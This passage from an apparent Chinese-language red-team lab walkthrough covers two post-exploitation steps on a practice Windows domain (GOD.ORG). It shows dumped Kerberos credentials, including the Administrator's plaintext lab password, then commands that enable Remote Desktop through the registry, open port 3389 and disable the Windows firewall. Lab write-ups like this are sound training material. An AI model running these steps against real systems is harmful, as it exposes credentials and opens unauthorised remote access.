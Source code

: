 ```
Administrator  GOD     hongrisec@2019

kerberos credentials
====================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  GOD.ORG  hongrisec@2019
stu1$          GOD.ORG  41 bf 55 f8 6e c5 9e 7d 27 6e ea 1e 29 be 7e 99 df 0d b0 bc 39 8b 3a 2a 1f 09 e2 ab 6c 83 f2 28 68 7f b3 5
                        7 a9 e4 e4 8d 5f 2c 3c 7d 88 dd 52 a9 b4 26 ea 9f 46 74 b2 1d 15 45 81 e0 ea 25 fa a8 ef e5 cd 3f 0d 35 44
                         b1 af 9c d8 8e e1 31 28 a2 02 1d 2d 5b 3c 01 d2 35 13 8b ff 4f 46 da 4f b7 d5 d4 e6 6b 08 20 c9 4f 46 83
                        28 cc e8 4b cb f3 60 0f fd 7c 1e 1e 2f 1f bb 8a dc f8 5b be d8 b4 d0 cd f9 02 e1 c0 56 23 c7 2d c2 69 76 7
                        0 94 b5 cb d5 c2 90 98 52 59 1b d5 2a bd bc 08 b0 56 45 69 c3 33 33 4d 00 60 3c 8c 41 b9 c9 00 ef 75 ac 3c
                         2d 8f cc 4b 90 4a a6 08 e5 4d eb 0a f7 32 d9 81 2e 62 aa 68 65 fd e6 d2 a4 b0 4a 52 fd 63 4f 8b 33 bc 69
                        65 33 a4 c7 3f 4a 37 a5 ce ea ed b5 07 bc 2a 4f b4 4f 3b c0 ca b8 34 d2 1b 47 f7 f9
```

> 可得密码：hongrisec@2019



#### 法二：CS

![image-20220814170532122](./st1.assets/image-20220814170532122.png)

然后再点击"抓取明文密码"即可。



### 启用远程桌面

#### 法一：CMD

```bash
netstat -ano | findstr "3389"						# 查看端口3389是否开启
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber		# 查看远程端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f	# 开启3389端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow	# 允许 3389 端口放行
netsh firewall set opmode disable					# Windows Server 2003 系统及之前版本
netsh advfirewall set allprofiles state off			# Windows Server 2003 之后系统版本
```

![](./st1.assets/image-20220814173528143.png)
